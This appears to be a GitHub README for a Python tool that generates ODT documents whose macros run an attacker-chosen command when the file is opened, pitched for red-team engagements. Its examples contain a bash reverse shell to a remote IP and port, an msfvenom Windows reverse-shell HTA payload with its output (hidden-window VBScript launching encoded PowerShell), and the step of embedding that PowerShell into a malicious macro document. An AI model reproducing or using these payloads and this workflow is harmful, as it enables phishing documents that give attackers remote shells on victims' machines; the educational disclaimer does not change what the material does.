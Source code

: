 ## Malicious VBA Macro Generator
One general way to gain a foothold on a user's machine in a red-teaming engagement is the use of delivering a document that has a macro enabled that executes a command, which is triggered upon the user opening the document. This program generates one such document in ODT format (I may add Word, Excel and ODS documents later).

### Update
Malmacro now supports commands of arbitrary length. This has particular application to obfuscated powershell commands, which can be extremely lengthy.

Examples:

```bash
$ python malmacro.py
Usage: malmacro.py <code_to_execute>

$ python malmacro.py "bash -i >& /dev/tcp/10.10.10.10/9001 0>&1"

# malmacro.odt generated
$ ls
macro.odt  malmacro.odt  malmacro.py

# Generate hta payload with msfvenom:
$  msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f hta-psh
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of hta-psh file: 7378 bytes
<script language="VBScript">
  window.moveTo -4000, -4000
  Set blx9LNamq = CreateObject("Wscript.Shell")
  Set dhC = CreateObject("Scripting.FileSystemObject")
  For each path in Split(blx9LNamq.ExpandEnvironmentStrings("%PSModulePath%"),";")
    If dhC.FileExists(path + "\..\powershell.exe") Then
      blx9LNamq.Run "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcgBdADoAO<SNIP>AHIAdAAoACQAcwApADsA",0
      Exit For
    End If
  Next
  window.close()
</script>

# Take powershell code to make malicious macro document
$ ./malmacro.py 'powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcgBdADoAOgBTAG<SNIP>'

```

## Disclaimer
This project is made for demonstrative and educational purposes only. I'm not liable for how you use it.
